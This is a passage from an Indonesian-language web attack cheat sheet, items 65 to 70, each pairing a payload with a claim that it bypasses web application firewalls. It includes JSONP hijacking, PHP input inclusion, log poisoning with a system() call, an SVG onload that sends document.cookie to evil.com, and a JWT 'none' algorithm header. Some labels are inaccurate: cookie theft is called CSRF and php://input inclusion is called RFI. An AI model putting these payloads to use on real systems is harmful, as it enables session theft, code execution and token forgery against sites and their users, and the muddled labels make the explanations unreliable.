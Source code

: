
### **🛡️ 65. JSONP Hijacking for Data Theft**  
```html
<script src="http://victim.com/api?callback=stealData"></script>
```
**📌 Teknik:**  
✅ **JSONP Hijacking** = Mengeksploitasi JSONP untuk mencuri data.  
✅ **Bypass WAF** dengan menggunakan metode callback JSONP.  

---

### **🛡️ 66. Remote File Inclusion via PHP Wrappers**  
```php
<?php include 'php://input'; ?>
```
**📌 Teknik:**  
✅ **RFI Attack** = Memasukkan file dari input eksternal ke dalam kode PHP.  
✅ **Bypass WAF** karena tidak menggunakan URL eksplisit.  

---

### **🛡️ 67. Subdomain Takeover via CNAME Misconfiguration**  
```bash
dig sub.victim.com CNAME
```
**📌 Teknik:**  
✅ **Subdomain Takeover** = Mengeksploitasi DNS yang salah konfigurasi.  
✅ **Bypass WAF** karena memanfaatkan kesalahan konfigurasi, bukan payload eksplisit.  

---

### **🛡️ 68. Log Injection for Code Execution**  
```bash
echo "<?php system('ls'); ?>" >> /var/log/auth.log
```
**📌 Teknik:**  
✅ **Log Injection** = Menyisipkan kode PHP dalam log server untuk dieksekusi.  
✅ **Bypass WAF** karena payload tersembunyi dalam file log.  

---

### **🛡️ 69. CSRF via SVG File Injection**  
```xml
<svg onload="fetch('http://evil.com?cookie='+document.cookie)">
```
**📌 Teknik:**  
✅ **SVG-based CSRF** = Menggunakan elemen SVG untuk mencuri data.  
✅ **Bypass WAF** karena SVG dianggap aman oleh banyak sistem.  

---

### **🛡️ 70. JWT None Algorithm Bypass**  
```json
{
  "alg": "none",
  "typ": "JWT"
}
```
**📌 Teknik:**  
✅ **JWT Algorithm Confusion** = Menggunakan algoritma `none` untuk memalsukan token.  
✅ **Bypass WAF** karena payload tampak seperti token JWT biasa.  

---